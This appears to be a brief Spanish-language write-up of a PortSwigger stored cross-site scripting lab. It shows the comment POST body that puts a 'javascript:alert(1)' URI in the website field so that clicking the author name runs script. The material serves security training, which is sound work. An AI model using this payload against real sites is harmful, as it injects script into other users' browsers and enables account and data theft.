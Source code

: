 # 8 - Anchor href attribute with double quotes HTML-encoded

> This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

Cambiamos el post de la website para ejecutar codigo js y listo:

```text
csrf=eVRawyL7nnb79R9NaJp18JzGbogTC86d&postId=8
&comment=aaa&name=Aguante+bokita+papa&email=boke%40boke.com
&website=javascript:alert(1)
```

